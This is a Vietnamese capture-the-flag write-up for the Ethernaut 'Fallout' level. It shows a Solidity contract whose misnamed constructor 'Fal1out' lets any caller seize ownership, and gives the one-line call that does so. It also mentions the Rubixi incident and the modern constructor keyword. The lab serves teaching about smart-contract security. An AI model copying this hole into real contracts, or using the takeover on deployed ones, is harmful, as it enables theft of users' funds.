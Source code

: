 # Level 2: Fallout
## ★☆☆☆☆
Một challenge nếu để ý kỹ contract thì sẽ rất dễ :>
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

## Solution
**Target**: chiếm quyền owner .  
Nếu để ý kỹ thì ở constructor không trùng tên với contract:
```solidity
  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
  ```
Như vậy, chúng ta chỉ đơn giản là gọi đến constructor mà thôi.
 ```javascript
 contract.Fal1out()
```
Check lại owner 
```javascript
await contract.owner()
```
Một số vấn đề bên lề chút,  Rubixi sau khi đổi tên từ Dynamic Pyramid, bằng một cách nào đó mà các dev đã không rename lại constructor, thế là hacker đã lợi dụng cái đó và chiếm quyền owner =)).
> Note: Từ version 0.6.0 về sau, constructor không cần đặt tên giống với contract nữa mà sẽ mặc định là constructor lun. Như ví dụ sau:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// Base contract X
contract X {
    string public name;

    constructor(string memory _name) {
        name = _name;
    }
}
```



